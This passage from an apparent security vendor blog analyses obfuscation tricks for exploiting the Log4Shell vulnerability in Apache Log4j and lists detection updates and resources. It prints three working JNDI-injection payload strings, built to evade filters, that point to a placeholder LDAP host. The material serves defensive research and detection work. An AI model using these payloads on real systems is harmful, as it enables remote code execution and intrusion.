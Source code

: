 All the exploit obfuscation examples are based on [lookup substitutions](https://logging.apache.org/log4j/2.x/manual/lookups.html). While analyzing the samples coming from honeypots, a description of [how lookups can be exploited in general](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/), and the JNDI parser (as discussed above), we came up with a new obfuscation method that works but we have not seen reported anywhere yet: 

`${${FORESCOUT:RANDOMVAL:-j}ndi:ldap://<ip_address>/}`

It relies on: (i) the default value operator "-", (ii) a non-resolvable key ("FORESCOUT" which can be replaced by anything that is not resolved), (iii) a non-resolvable value ("RANDOMVAL") and (iv) a default value ("j") that the parser will fall back to. 

We also observed that Unicode characters can be used to successfully exploit the vulnerability. The following format, for instance, is valid for payloads:

`${${( ❛ ͜ʖ ❛ ):RandomValue:-j}ndi:ldap://<ip_address>/}`

Another obfuscation capability we have found is when parts of the URI can be hidden behind environment/system variables that will be dynamically expanded, for example:

`${jndi${sys:path.separator}ldap${sys:path.separator}${sys:file.separator}${sys:file.separator}<ip_address>}`

All of these have been tested against a demo vulnerable setup that we have on our lab (based on https://github.com/christophetd/log4shell-vulnerable-app) and are using to monitor the evolution of attacker methods.

All our findings are also used to improve Forescout products and artifacts. eyeSight customers can install the Security Policy Templates (SPT) plugin version 21.0.11, which is scheduled to be released by December 17, 2021 while eyeInspect customers can update their Threat Detection Add-Ons script to version 1.6 (and above) containing a detection strategy for CVE-2021-44228 exploitation attempts on HTTP.

Other resources
===============

*	There are several organizations and people collecting and continuously updating lists of affected vendors and software, including [CISA](https://github.com/cisagov/log4j-affected-db), [CERT/CC](https://www.kb.cert.org/vuls/id/930724), [NCSC-NL](https://github.com/NCSC-NL/log4shell/blob/main/software/README.md), [Authomize](https://github.com/authomize/log4j-log4shell-affected) and [SwitHak](https://gist.github.com/SwitHak/7e1bfa1e36a5f1f02d900062d188a8a4).
*	There are several descriptions of known ongoing attack campaigns (with IoCs that can be used for detection), including [Khonsari ransomware](https://otx.alienvault.com/pulse/61b89fa75b38538e2395d0ec), [Kinsing cryptominer](https://threatfox.abuse.ch/browse/tag/log4j/) and [ten more malicious samples: Muhstik, Mirai, Elknot/BillGates, m8220, SitesLoader, xmrig.pe, xmrig.ELF, 3 unnamed](https://blog.netlab.360.com/ten-families-of-malicious-samples-are-spreading-using-the-log4j2-vulnerability-now/)
*	[CISA Vulnerability Guidance](https://www.cisa.gov/uscert/apache-log4j-vulnerability-guidance)
*	[Network Detection (including Snort rules) from NCC Group](https://research.nccgroup.com/2021/12/12/log4shell-reconnaissance-and-post-exploitation-network-detection/) 
